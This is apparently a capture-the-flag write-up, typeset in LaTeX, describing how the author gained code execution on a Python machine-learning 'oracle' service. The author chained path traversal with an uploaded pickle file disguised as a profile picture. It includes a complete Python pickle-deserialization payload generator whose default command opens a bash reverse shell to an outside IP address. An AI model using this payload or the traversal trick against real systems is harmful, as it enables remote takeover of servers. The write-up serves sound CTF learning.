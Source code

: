 \begin{fullwidth}
First some intelligence gathered using Postman and the development mode of the browser:

\begin{itemize}
\item the server is Gunicorn, so we are probably dealing with python
\item we can upload a profile picture that is then stored in \verb+/tmp/...+
\item the oracle itself has two inputs in the POST method: the CTF and the
	scores
\item entering more than three scores returns just predicted values for all
	submitted values
\item changing the CTF to another value, \emph{e.g.} \texttt{HackyEaster}, triggers a
	message about {\small\texttt{... cannot load file ./model/HackyEaster}}
\item injecting wildcards etc. do not seem to have an effect
\item we can traverse the directory tree: {\small\texttt{../../../tmp/../app/models/HE}}
	does get us the proper HE model
\end{itemize}

\noindent 
Reading up on the way to store ML-models, it became likely that we can store
pickled models that are then loaded.  The plan of attack is thus to create a
pickled payload stored as \verb+rce.png+, store this file as a profile picture,
and load this file as the model.  Then the server will load the model, unpickle
it and execute our payload.

Creating a first remote shell using a simple netcat listener didn't give a
shell, but at least a new error message: {\small\texttt{Failed to make prediction}}.
This means that the pickle was loaded successfully, but did not continue
running for whatever reason.  Later it became clear that \verb+nc+ is not
available on the server.  

After trying many different routes to get something to work (a python shell, a
listener, ...) finally a very simpe reverse shell using \verb+bash+ worked
beautifully in connecting via ngrok -- but to do this, I first had to learn
about ngrok.  The final scrip to create the payload looks like this: 
\end{fullwidth}

\newpage
{\small
\begin{verbatim}
#!/usr/bin/python
#
# Pickle deserialization RCE payload.
# To be invoked with command to execute at it's first parameter.
# Otherwise, the default one will be used.
#

import pickle
import sys
DEFAULT_COMMAND="/bin/bash -c '/bin/sh -i >& /dev/tcp/3.68.56.232/10421 0>&1'"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

with open('rce.png', 'wb') as outF:
    outF.write(pickle.dumps(PickleRce()))
\end{verbatim}
}

